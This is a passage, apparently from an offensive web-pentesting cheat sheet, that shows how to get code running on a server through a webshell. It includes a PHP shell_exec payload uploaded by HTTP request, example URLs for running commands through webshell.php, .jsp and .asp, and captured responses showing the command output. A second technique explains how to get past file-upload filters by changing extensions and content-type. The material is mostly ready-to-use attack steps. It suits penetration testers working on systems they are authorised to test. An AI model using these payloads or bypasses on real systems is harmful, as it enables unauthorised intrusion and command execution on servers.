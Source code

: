 ```
             Accept-Language: en-US,en;q=0.5
             Accept-Encoding: gzip, deflate
             Connection: close
             Upgrade-Insecure-Requests: 1
             Cache-Control: max-age=0
             Content-Length: 49

             <?php echo shell_exec("id;pwd;uname -a;2>&1"); ?>
	    
	     HTTP response:
	     --------------
             HTTP/1.1 201 Created
             Content-Length: 0
             Connection: close
             Date: Wed, 15 Aug 2018 19:38:26 GMT
             Server: lighttpd/1.4.28

➤ Step 4. Execute OS commands using the Webshell 
	   - Examples with CURL
             $ http://www.sitename.com/<path>/webshell.php?cmd=whoami
             $ http://www.sitename.com/<path>/webshell.jsp?cmd=whoami
             $ http://www.sitename.com/<path>/webshell.asp?cmd=whoami
	     ...
	  
	   - Example of exploitation with Burp proxy (repeater)
             GET /test/webshell.php HTTP/1.1
             Host: x.x.x.x
             User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
             Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
             Accept-Language: en-US,en;q=0.5
             Accept-Encoding: gzip, deflate
             Connection: close
             Upgrade-Insecure-Requests: 1
             Cache-Control: max-age=0
	    
	     HTTP response:
	     --------------
             HTTP/1.1 200 OK
             X-Powered-By: PHP/5.3.10-1ubuntu3.21
             Content-type: text/html
             <SNIP>
             uid=33(www-data) gid=33(www-data) groups=33(www-data)
             /var/www/test
             <SNIP>
```

#### Technique 14. Webshell upload by exploiting a vulnerable file upload function
```
Example with a vulnerable PHP website

➤ Step 1. You found a file upload page "image_upload.php" and you tried to upload a webshell named "Webshell.php" but it was rejected.
          Possible root causes:
	   - only the file name extensions '.png', '.gif' and '.jpg' are accepted
	   or
	   - the file name extension '.php' is forbidden

➤ Step 2. Simply modify the file extension of your webshell like "Webshell.php.png" or "Webshell.php5" or "Webshell.phtml" to bypass the checks based on the file extension
           - In general to bypass basic checks you can do the following:
 	     + Append the name of the file extension of your webshell
	     + Adjust the content-type to match that of an accepted file-type
```